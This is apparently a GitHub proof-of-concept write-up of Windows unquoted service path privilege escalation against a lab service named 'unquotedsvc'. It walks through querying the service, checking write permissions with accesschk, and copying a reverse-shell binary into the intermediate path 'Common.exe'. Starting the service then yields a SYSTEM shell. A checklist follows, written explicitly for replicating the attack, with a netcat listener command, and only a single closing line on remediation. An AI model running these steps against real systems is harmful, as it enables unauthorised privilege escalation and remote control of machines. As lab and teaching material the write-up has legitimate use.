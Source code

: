 # Proof of Concept: Privilege Escalation via Unquoted Service Path

### Vulnerability Overview

**Unquoted Service Path** is a Windows privilege escalation vulnerability where a service's `ImagePath` in the registry is unquoted and contains spaces (e.g., `C:\Program Files\MyService\MyService.exe`). Windows misinterprets the path, attempting to execute intermediate paths first (e.g., `C:\Program.exe`). If an attacker has write access to any directory in the path, they can place a malicious file in an intermediate location, which Windows will execute instead of the intended binary, potentially leading to privilege escalation.

---

### Proof of Concept (PoC)

This PoC demonstrates how a low-privileged user can exploit the "Unquoted Service Path" vulnerability to escalate privileges on a Windows machine. The test was conducted as a white box assessment, with prior knowledge of login credentials and the vulnerable service (`unquotedsvc`). The process involves gaining initial access, identifying the unquoted service path, checking write permissions on directories in the path, placing a malicious file in an intermediate directory, and starting the service to gain an elevated shell.

#### Initial Access
- Logged into the target Windows machine using provided credentials for the user account `user`.  
- Established a reverse shell to connect to the attacker machine for command execution, using a malicious file (`esc.exe`).  
  - **Screenshot**: Initial Access via Reverse Shell  
    ![Initial Access](https://github.com/user-attachments/assets/fe04b6c1-5d47-4c47-8962-36829a605259)

#### Step 1: Query the Vulnerable Service
- Queried the service `unquotedsvc` to check its configuration and confirm the vulnerability:  
  ```bash
  sc qc unquotedsvc
  ```
- **Result**: The `BINARY_PATH_NAME` was `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`, and it was unquoted with spaces, confirming the vulnerability.  
  - **Screenshot**: Service Configuration  
    ![Service Details](https://github.com/user-attachments/assets/93d30514-dfec-430c-b61e-725667e976d3)

#### Step 2: Check Write Permissions on Directories in the Path
- Analyzed write permissions on directories in the service path to identify exploitable locations:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:"
  ```
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\"
  ```
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
  ```
  - **Command Breakdown**:  
    - `/accepteula`: Auto-accepts the EULA.  
    - `-u`: Checks user-level access.  
    - `-w`: Checks for write permissions.  
    - `-d`: Targets directories only.  
    - `-q`: Quiet mode, suppresses banners.  

- **Result**: The directory `C:\Program Files\Unquoted Path Service\` grants `RW BUILTIN\Users`, meaning all authenticated users (including `user`) can read and write to this directory.  
  - **Screenshot**: Permission Results  
    ![Permission Results](https://github.com/user-attachments/assets/c682213c-53f1-464b-845f-5379b6fe8fd8)

#### Step 3: Exploit the Vulnerability
- **Objective**: Place a malicious file in an intermediate directory that Windows will attempt to execute due to the unquoted path.  
  - Path: `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`.  
  - Intermediate path Windows will try: `C:\Program Files\Unquoted Path Service\Common.exe` (due to the space after "Common").  
- Copied the malicious file `esc.exe` (a reverse shell binary) to the intermediate location:  
  ```bash
  copy C:\users\user\esc.exe "C:\Program Files\Unquoted Path Service\Common.exe"
  ```
  - **Screenshot**: File Copy Success  
    ![File Copy](https://github.com/user-attachments/assets/1828b0f0-c8d2-4a76-ae70-41dfb65ecd6d)

#### Step 4: Trigger the Malicious File and Gain Elevated Shell
- Started the service to trigger the execution of the malicious file:  
  ```bash
  net start unquotedsvc
  ```
- **Result**: Windows executed `C:\Program Files\Unquoted Path Service\Common.exe` (the malicious `esc.exe`) instead of the intended binary, establishing a reverse shell with `SYSTEM` privileges on the attacker machine.  
  - **Screenshot**: Elevated Shell via Reverse Shell  
    ![Elevated Shell](https://github.com/user-attachments/assets/3bad4c77-63c4-4a8c-a12b-1a7e35562ff5)

---

### Summary of Findings

- The `unquotedsvc` service had an unquoted `ImagePath` with spaces (`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`).  
- The directory `C:\Program Files\Unquoted Path Service\` was writable by `BUILTIN\Users`, allowing the placement of a malicious file (`Common.exe`).  
- Starting the service caused Windows to execute the malicious file instead of the intended binary, resulting in a `SYSTEM`-level reverse shell.

---


Below is a concise summary of the steps taken in the "Unquoted Service Path" Proof of Concept (PoC), presented as a checklist that can be used to replicate the privilege escalation attack on a Windows machine. The checklist is streamlined for clarity and focuses on the key actions required to exploit the vulnerability.

---

## Checklist: Replicating Unquoted Service Path Privilege Escalation Attack

### Prerequisites
- [ ] Gain initial access to the target Windows machine using valid user credentials.
- [ ] Set up a listener on the attacker machine to capture reverse shell connections (e.g., `nc -nlvp <port>`).
- [ ] Prepare a malicious file (`esc.exe`) that establishes a reverse shell, hosted at an accessible location (e.g., `C:\users\user\esc.exe`).

---

### Steps to Exploit Unquoted Service Path
**Target**: Exploit the unquoted service path vulnerability in the `unquotedsvc` service to execute a malicious binary.

- [ ] Establish a reverse shell to the attacker machine (listener already set up).
- [ ] Query the service to confirm the unquoted path vulnerability:  
  `sc qc unquotedsvc`
- [ ] Check write permissions on directories in the service path:  
  `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:"`  
  `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\"`  
  `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
- [ ] Place the malicious file in an intermediate directory Windows will execute:  
  `copy C:\users\user\esc.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
- [ ] Start the service to trigger the malicious file and gain a reverse shell:  
  `net start unquotedsvc`

---

### Notes
- Ensure the malicious file (`esc.exe`) is accessible on the target system (e.g., at `C:\users\user\esc.exe`).
- The intermediate file name (`Common.exe`) must match the next segment after a space in the unquoted path (e.g., `Common` from `Common Files`).
- The `accesschk.exe` tool must be available on the target system (e.g., at `C:\PrivEsc\accesschk.exe`).
- The service restart triggers the exploit by executing the malicious file with `SYSTEM` privileges.



### Conclusion

This PoC confirms that the "Unquoted Service Path" vulnerability in the `unquotedsvc` service allows a low-privileged user to escalate privileges to `SYSTEM` level. By exploiting the unquoted path and writable directory permissions, an attacker can place a malicious file in an intermediate path that Windows executes with elevated privileges, posing a significant risk to system security. Immediate remediation is recommended, such as quoting service paths in the registry and restricting write permissions on directories in service paths.

---









